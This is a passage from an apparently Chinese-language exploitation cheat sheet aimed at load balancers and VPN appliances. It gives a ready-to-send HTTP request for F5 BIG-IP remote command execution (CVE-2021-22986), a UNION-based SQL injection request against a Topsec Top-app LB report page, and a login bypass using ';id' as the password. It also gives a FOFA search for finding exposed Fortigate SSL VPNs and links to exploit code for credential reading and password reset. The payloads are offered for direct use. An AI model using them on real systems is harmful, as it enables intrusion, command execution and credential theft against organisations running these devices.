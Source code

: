 ```
POST /mgmt/tm/util/bash HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 41

{"command":"run","utilCmdArgs":"-c id"}
```

exp：

- https://github.com/h4x0r-dz/RCE-Exploit-in-BIG-IP
- https://github.com/Al1ex/CVE-2021-22986

#### 天融信 Top-app LB

##### SQL注入

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- &o=r_Speed&gid=0&lmt=10&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=
```

#### 无密码登录

```
任意用户名  密码：;id
```

### 0x07 VPN

#### Fortigate SSL VPN

FOFA：

```
fofa: icon_hash="-404383634" app="FORTINET-防火墙"
```

##### 密码读取 CVE-2018-13379

exp：https://github.com/milo2012/CVE-2018-13379

##### 任意密码重置 CVE-2018-13382

exp：https://github.com/milo2012/CVE-2018-13382
